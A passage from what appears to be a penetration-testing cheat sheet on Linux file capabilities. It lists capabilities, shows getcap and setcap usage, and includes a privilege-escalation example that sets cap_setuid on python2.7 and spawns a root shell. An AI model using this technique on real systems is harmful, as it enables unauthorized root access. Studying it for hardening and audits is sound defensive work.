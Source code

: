 | **CAP\_KILL**               | Allow the sending of signals to processes belonging to others                                                                               |
| **CAP\_SETGID**             | Allow changing of the GID                                                                                                                   |
| **CAP\_SETUID**             | Allow changing of the UID                                                                                                                   |
| **CAP\_SETPCAP**            | Helps to transferring and removal of current set to any PID                                                                                 |
| **CAP\_IPC\_LOCK**          | This helps to lock memory                                                                                                                   |
| **CAP\_MAC\_ADMIN**         | Allow MAC configuration or state changes                                                                                                    |
| **CAP\_NET\_RAW**           | Use RAW and PACKET sockets                                                                                                                  |
| **CAP\_NET\_BIND\_SERVICE** | SERVICE Bind a socket to internet domain privileged ports                                                                                   |

### List capabilities of files

```bash
#Recursively list capabilities of files in a folder:
getcap -r  /usr/bin
...
/usr/bin/fping                = cap_net_raw+ep
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/rlogin               = cap_net_bind_service+ep
/usr/bin/ping                 = cap_net_raw+ep
/usr/bin/rsh                  = cap_net_bind_service+ep
/usr/bin/rcp                  = cap_net_bind_service+ep
...
```

### Editing file capabilities

```bash
/usr/bin/setcap -r /bin/ping            # remove all capabilities
/usr/bin/setcap cap_net_raw+p /bin/ping # add specific capabilities
```

### Privilege escalation using file capabilities

The capability `=ep` means the binary has all capabilities.

```bash
$ getcap openssl /usr/bin/openssl 
openssl=ep
```

The following capabilities can also be used in order to upgrade your current privileges:

Read any file: `cap_dac_read_search`&#x20;

SUID: `cap_setuid+ep`

Example of privilege escalation with `cap_setuid+ep`

```bash
sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7
python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
id
#uid=0(root) gid=1000(zweilos)
```
